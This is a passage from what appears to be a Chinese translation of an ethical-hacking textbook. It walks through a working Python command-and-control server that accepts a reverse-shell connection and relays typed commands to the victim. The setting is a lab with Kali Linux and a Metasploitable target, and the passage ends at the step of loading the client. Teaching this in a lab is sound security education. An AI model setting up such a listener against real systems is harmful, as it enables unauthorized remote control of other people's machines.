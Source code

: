 现在，你将编写在黑客 Kali Linux 机器上运行的服务器。这个服务器将负责两个关键功能：1）接受来自客户端的连接，2）发送和接收命令。你会经常听到这个服务器被称为 *命令与控制（CNC）* 服务器。在文本编辑器中打开一个新窗口，输入以下代码，然后将文件保存为 *shellServer.py*，保存在同一个 shell 文件夹中：

```
   from socket import *

   serverPort = 8000
➊ serverSocket = socket(AF_INET, SOCK_STREAM)
➋ serverSocket.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
➌ serverSocket.bind(('', serverPort))
➍ serverSocket.listen(1)

   print("Attacker box listening and awaiting instructions")
➎ connectionSocket, addr = serverSocket.accept()

   print("Thanks for connecting to me "

             +str(addr))

   message = connectionSocket.recv(1024)

   print(message)

   command =""

   while command != "exit":

       command = input("Please enter a command: ")

       connectionSocket.send(command.encode())

       message = connectionSocket.recv(1024).decode()

       print(message)

➏ connectionSocket.shutdown(SHUT_RDWR)

   connectionSocket.close()
```

首先，我们创建一个 IPv4 TCP 套接字 ➊。为了确保套接字能够有效通信，IP 版本和协议必须匹配，因此我们使用与客户端相同的协议。通过允许操作系统重用最近使用过的套接字，我们使套接字更加健壮 ➋。创建套接字后，我们可以将其绑定到机器上的端口。`bind()`函数接受两个参数 ➌：机器的 IP 地址和端口。如果 IP 地址参数为空，函数将使用分配给机器的默认 IP 地址。

现在，套接字已绑定到端口，它可以开始监听连接 ➍。在这里，您可以指定要支持的连接数量。由于只有一个客户端，支持单个连接是可以的。一旦客户端连接到我们的套接字，我们将接受连接并返回一个连接对象 ➎。我们将使用这个对象来发送和接收命令。一旦我们完成发送命令，我们将为快速离开配置连接 ➏并关闭它。

通过运行以下命令启动服务器：

```
kali@kali:~$ python3 ~/Desktop/shell/shellServer.py
```

服务器现在正在等待客户端连接，您可以开始将客户端（*reverseShell.py*）加载到 Metasploitable 服务器上的过程。

### **将反向 Shell 加载到 Metasploitable 服务器上**
